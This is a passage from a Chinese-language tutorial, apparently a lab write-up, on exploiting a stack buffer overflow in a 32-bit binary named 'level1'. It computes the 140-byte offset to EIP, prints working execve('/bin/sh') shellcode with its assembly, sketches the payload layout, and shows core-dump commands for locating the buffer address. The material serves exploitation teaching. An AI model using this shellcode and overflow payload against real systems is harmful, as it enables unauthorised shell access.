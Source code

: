 容易知道需要填充140个字节才能到EIP地址，也就是说前面填充140个字节再加上任意地址，即会跳到该地址来执行，这就构造出来一个任意地址执行的漏洞

因为objdump都没看到有system函数，也没有调用syscall类型函数，所以这里构造一个shellcode来执行`execve ("/bin/sh")`,进而起shell。
汇编以及需要利用的shellcode如下(汇编与shellcode之间的转化可以用asm()与disasm()：
```
# execve ("/bin/sh") 
# xor ecx, ecx
# mul ecx
# push ecx
# push 0x68732f2f   ;; hs//
# push 0x6e69622f   ;; nib/
# mov ebx, esp
# mov al, 11
# int 0x80

shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73"
shellcode += "\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0"
shellcode += "\x0b\xcd\x80"
```

<img src="/images/posts/ROP--x86/1523020344391.png" > 

溢出点有了，shellcode有了，下一步就是控制PC跳转到shellcode的地址上:
```
[shellcode][“AAAAAAAAAAAAAA”….][ret]
^------------------------------------------------|
```
对初学者来说这个shellcode地址的位置其实是一个坑。因为正常的思维是使用gdb调试目标程序，然后查看内存来确定shellcode的位置。但当你真的执行exp的时候你会发现shellcode压根就不在这个地址上！这是为什么呢？原因是gdb的调试环境会影响buf在内存中的位置，虽然我们关闭了ASLR，但这只能保证buf的地址在gdb的调试环境中不变，但当我们直接执行./level1的时候，buf的位置会固定在别的地址上。

现在问题就出在如何准确找到那个return的地址，这里使用core dump的方法
```
ulimit -c unlimited
sudo sh -c 'echo "/tmp/core.%t" > /proc/sys/kernel/core_pattern'
```
开启之后，当出现内存错误的时候(重新执行一次程序，并输入一段pattern让程序崩溃)，系统会生成一个core dump文件在tmp目录下。然后我们再用gdb查看这个core文件就可以获取到buf真正的地址了。如图：

<img src="/images/posts/ROP--x86/1523020579959.png" > 
